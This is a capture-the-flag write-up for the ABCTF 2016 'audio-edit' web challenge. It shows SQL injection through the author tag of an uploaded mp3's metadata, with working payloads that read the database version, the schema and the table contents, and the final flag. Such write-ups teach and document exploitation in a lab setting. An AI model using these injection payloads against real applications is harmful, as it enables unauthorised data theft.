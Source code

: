 # ABCTF 2016 : audio-edit-200

**Category:** Web
**Points:** 200
**Solves:** 21
**Description:**

I made a cool site to edit audio files. [Can you exploit it?](http://107.170.122.6/audioedit/)

## Write-up

The site offers users to upload an mp3 and therewith do some modifications on e.g. pitch or grain size.
In order to save the uploaded file it's inserted into a database.
It can be requested with a identifier delivered as the HTTP-GET parameter 'file'.
The identifier is created as the sha1sum of the mp3 content.
When opening a mp3 that way, the edit-overview shows some modification modulators,
but also the 'Author' as well as the 'Title' of the particular mp3.

![edit.php](images/abctf-2016-audioedit-edit.png)

Some test quickly revealed the input of 'Author' and 'Title' in the mp3-metadata isn't verified
and offers a SQL-injection vulnerability.

We figured the insertion statement looked smth. like this:

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);

In order to do an SQL-injection we have to create a special author and title field.
I used [easyTAG](https://wiki.gnome.org/Apps/EasyTAG) but of course you can use the tool of your choice to modify mp3-meta-data;-)
In order to do an injection and maintain a valid INSERTION statement you can create an mp3
with the following meta data:

   
    title  = "" (leer)
    author = a', (SELECT @@version))-- -b

Which creates the following statement

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);

The 'a' in the beginning and the 'b' in the end were necessary because the first and last character were
discarded...

This gave us the database version: 5.5.49-0ubuntu0.14.04.1

Next we wanted to know the database name:
    
    author = a', (SELECT database()))-- -b:
    audioedit

And of course the column names:

    author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
    with x in range(0,3):
    id
    file
    author
    title

So finally we wanted see whats in there:

    author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a
    
... but this gave us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time... Thanks to Arxenix!:)

So we got around by using AS:

    author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    ABCTF 
    author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    flag 
    author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    supersecretflagf1le.mp3
    
Using this info we visited the corresponding site: http://107.170.122.6/audioedit/edit.php?file=supersecretflagf1le.mp3
    
Setting the visualization to 'Sonogram' finally showed us the flag:

    ABCTF{m3t4_inj3cti00n}

![flag](images/abctf-2016-audioedit-flag.png)

## Other write-ups and resources

* http://countersite.org/articles/web-vulnerability/105-audioedit-writeup.html


